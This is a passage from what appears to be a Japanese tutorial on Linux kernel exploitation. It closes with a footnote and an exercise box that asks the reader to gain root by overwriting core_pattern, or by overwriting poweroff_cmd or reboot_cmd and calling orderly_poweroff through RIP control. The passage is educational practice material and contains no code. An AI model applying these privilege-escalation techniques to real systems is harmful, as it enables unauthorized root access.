[^3]: その変数を使う関数を逆アセンブルしてアドレスを特定する方法もあります。

----

<div class="column" title="例題">
  この章では<code>modprobe_path</code>を書き換えてroot権限でコマンドを実行しました。<br>
  (1) <code>core_pattern</code>を書き換えて同様にroot権限を取ってください。<br>
  (2) <code>orderly_poweroff</code>や<code>orderly_reboot</code>などの関数では、それぞれ<code>poweroff_cmd</code>や<code>reboot_cmd</code>のコマンドが<a href="https://elixir.bootlin.com/linux/v5.15/source/kernel/reboot.c#L462">実行されます</a>。このコマンドを書き換えてから、RIP制御でこの関数を呼ぶことでroot権限のシェルを取ってください。<br>
</div>

